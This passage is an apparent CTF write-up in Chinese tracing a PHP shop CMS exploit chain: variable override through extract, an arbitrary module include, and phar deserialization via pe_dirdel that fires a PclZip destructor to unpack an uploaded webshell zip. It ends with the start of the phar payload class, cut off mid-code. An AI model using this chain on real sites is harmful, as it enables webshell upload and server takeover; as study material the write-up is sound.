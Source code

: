   {
      $this->extract(PCLZIP_OPT_PATH, $this->save_path);
  }
PCLZIP解压缩，然后将文件放在指定目录，同时品牌管理处又能上传zip文件，那么只要想办法触发即可。即在admin.php上传的压缩的一句话木马文件要触发这里的destruct。
那么就从admin.php开始看，首先：include('common.php');
common.php 12行就有个变量覆盖
if (@ini_get('register_globals')) {
	foreach ($_REQUEST as $name => $value) unset($$name); //这里没懂为啥会触发覆盖
}
......
if (get_magic_quotes_gpc()) {  //这函数恒为false，从7.4版本就被废弃。
	!empty($_GET) && extract(pe_trim(pe_stripslashes($_GET)), EXTR_PREFIX_ALL, '_g');
	!empty($_POST) && extract(pe_trim(pe_stripslashes($_POST)), EXTR_PREFIX_ALL, '_p');
}
else {
	!empty($_GET) && extract(pe_trim($_GET),EXTR_PREFIX_ALL,'_g');
	!empty($_POST) && extract(pe_trim($_POST),EXTR_PREFIX_ALL,'_p');
后面说是对变量加上前缀。进行处理。在前缀和键值中会加一个下划线。
继续看。可以包含任意目录的php文件（其实早就已经看不懂了。。。
if (in_array("{$mod}.php", pe_dirlist("{$pe['path_root']}module/{$module}/*.php"))) {
	include("{$pe['path_root']}module/{$module}/{$mod}.php");
}
利用变量覆盖。包含admin目录下的moban.php（/module/admin/moban.php
只有它引用了pclzip.class.php（罢了 这要是我一辈子找不着 看guoke师傅 wp就行了QAQ
switch一个参数进入del：
case 'del':
		pe_token_match();
		$tpl_name = pe_dbhold($_g_tpl);
		if ($tpl_name == 'default') pe_error('默认模板不能删除...');
		if ($db->pe_num('setting', array('setting_key'=>'web_tpl', 'setting_value'=>$tpl_name))) {
			pe_error('使用中不能删除');
		}
		else {
			pe_dirdel("{$tpl_name}");
			pe_success('删除成功!');
		}
	break;
pe_dirdel函数触发phar反序列化。

懂了，大致意思就是上传一个压缩的phar文件：
<?php 
class PclZip{
	var $zipname = '';
	var $zip_fd = 0;
	var $error_code = 1;
    var $error_string = '';
    var $magic_quotes_status;
    var $save_path = '/var/www/html/data';//解压目录

    function __construct($p_zipname){
    	
  		$this->zipname = $p_zipname;
    	$this->zip_fd = 0;
    	$this->magic_quotes_status = -1;
